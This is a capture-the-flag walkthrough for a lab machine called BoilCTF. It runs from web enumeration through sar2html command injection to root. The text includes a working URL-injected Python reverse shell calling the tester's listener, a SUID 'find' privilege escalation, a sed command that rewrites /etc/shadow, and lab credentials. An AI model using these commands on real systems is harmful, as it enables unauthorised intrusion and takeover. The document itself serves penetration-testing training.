 # BoilCTF
IP: 10.10.8.187
<br>
First of all went to the ip in the browser and found apache2 server running. Then I went to robot.txt and found some interesting stuff there:

```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

Interesting pages on joomla/:
- _test
- administrator
- build
- tests

```
MYSQL_DATABASE: joomla_ut
     MYSQL_USER: joomla_ut
     MYSQL_PASSWORD: joomla_ut
     MYSQL_ROOT_PASSWORD: joomla_ut
```

I even tried to use Joomla scaner, but didn't find anything useful.
```
Joomla version is: 3.9.12

> Joomla! Core 1.5.0 - 3.9.4 - Directory Traversal / Authenticated Arbitrary File Deletion 
> Joomla! 3.9.0 < 3.9.7 - CSV Injection
```

Also I spent a lot of time visiting all the folders, which was a really bad idea. Some interesting stuff that I found there, even though they were not useful at all.
```
tests/codeception/\_support/Shared/UserCredentials.php
http://boilctf.thm/joomla/media/editors/

codemirror/
none/
tinymce/
```

After some time, I realized that I need another tactic. I remembered that there was some weird thing on the _\_test_ page. So I went there. 
![sar2html](./imgs/sar2html.png)
Then I googled sar2html exploit and found what I needed. It turns out that to exploit the thing we just need to change the url a little bit.<br>
This is a good url which supposed to give us something whatever.<br>
http://boilctf.thm/joomla/_test/index.php?plot=LINUX<br>
But if we change it to:
http://boilctf.thm/joomla/_test/index.php?plot=;whoami and click on the Select Host button<br>
we get some additional result there, which is a response to our command:
![whoami](./imgs/whoami.png)

I set up an _nc_ listener on port *2222* and used a simple python reverse-shell which I found on the internet. Therefore, eventually my url looked like this:<br>
```
http://boilctf.thm/joomla/_test/index.php?plot=;python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.2.116.12",2222));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

And at this point we got a reverse-shell. Here is the contents of the _log.txt_ file that was in the folder.
![log.txt](./imgs/log.txt.png)
So we got usernames and password there.
username: _basterd_<br>
username: _pentest_<br>
password: _superduperp@$$_<br>
**But that actually doesn't matter :)**<br>

I used this command to search for files on the system with the setuid (SUID) permission bit set for the owner.
```
find / -perm -u=s -type f 2>/dev/null
```
There were many files, but the more experience you have the more you understand which files you should look for. So the interesting executable for me was _find_.
I went to https://gtfobins.github.io/gtfobins/find/ and found that I can escalate my privileges with this command: 
```
find . -exec /bin/sh -p \; -quit
```
So I excuted it and got root.

Even though that reverse-shell worked I wanted to connect via _ssh_ to the machine.
ssh was not on port 22 it. Reading ssh config file (/etc/ssh/sshd_conf) found that it was running on port 55007.

Also I couldn't connect directly to root so I created my own hash of a password. And changed the `/etc/shadow` file a little bit.
```
openssl passwd -6 -salt xyz yourpass
$6$xyz$VKswtvLoVpOLcpjDMIFXhxa8ukqqKSKHjcPBLZUk9NxWldmlFQY4stUGo.QjEhav7mp86ih2PRqYPqjkhWi5y.
sed -i 's/^basterd:[^:]\*:/basterd:$6$xyz$VKswtvLoVpOLcpjDMIFXhxa8ukqqKSKHjcPBLZUk9NxWldmlFQY4stUGo.QjEhav7mp86ih2PRqYPqjkhWi5y.:/' /etc/shadow
```
And that let me connect via _ssh_.<br>
### A little bit of hardening
To prevent privilege escalation with the _find_ command need to do this:<br>
`chmod u-s /usr/bin/find`

